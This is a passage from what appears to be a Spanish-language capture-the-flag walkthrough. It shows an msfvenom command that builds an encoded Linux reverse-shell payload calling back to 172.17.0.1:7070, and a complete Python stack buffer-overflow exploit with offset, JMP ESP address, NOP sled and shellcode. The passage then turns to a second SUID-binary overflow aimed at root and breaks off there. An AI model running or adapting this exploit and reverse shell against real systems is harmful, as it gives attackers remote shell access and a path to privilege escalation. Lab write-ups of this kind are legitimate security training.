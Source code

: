 finalmente, generamos un shellcode con `msfvenom` y actualizamos el exploit:

```css
msfvenom -p linux/x86/shell_reverse_tcp --platform linux -a x86 LHOST=172.17.0.1 LPORT=7070 -f c -e x86/shikata_ga_nai EXITFUNC=thread
```

Exploit final:

```python
import socket



host = '127.0.0.1'
port = 9000
offset = 1337

junk = b"A"*offset

jmp_esp = b"\x59\x95\x04\x08"


shellcode = b"\xdb\xc0\xd9\x74\x24\xf4\x58\xbb\xc9\x9b\x83\xbb\x29\xc9\xb1\x12\x31\x58\x17\x83\xe8\xfc\x03\x91\x88\x61\x4e\x10\x74\x92\x52\x01\xc9\x0e\xff\xa7\x44\x51\x4f\xc1\x9b\x12\x23\x54\x94\x2c\x89\xe6\x9d\x2b\xe8\x8e\xb1\xdd\x0a\x4f\xa2\xdf\x0a\x54\xac\x69\xeb\xda\xb6\x39\xbd\x49\x84\xb9\xb4\x8c\x27\x3d\x94\x26\xd6\x11\x6a\xde\x4e\x41\xa3\x7c\xe6\x14\x58\xd2\xab\xaf\x7e\x62\x40\x7d\x00"

payload = junk + jmp_esp + b"\x90"*32 + shellcode + b"\n"


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send(payload) 
data = ''
data = s.recv(1024).decode()
print(data)
```

Perfecto, ahora solo nos queda escuchar en el puerto 7070 con netcat y ejecutar el exploit en la máquina víctima. Una vez ejecutado seremos el usuario **tyler**.

### Tyler

### Buffer Overflow 2

Siendo el usuario Tyler, podemos ver un binario con el bit suid activado en la home de este. Al ejecutarlo, parece ser una shell (además de que se llama shell) pero no parece hacer mucho, ya que si ejecutamos `id` no nos dice realmente si somos root, nuevamente si ponemos muchos datos, podremos ver que es vulnerable a buffer overflow.

Pasamos el binario a nuestra máquina, y nos ponemos como root, ya que el binario necesita ejecutar "setuid(0)" y no puede si lo ejecutamos como un usuario normal. Primeramente podemos ver varias cosas:

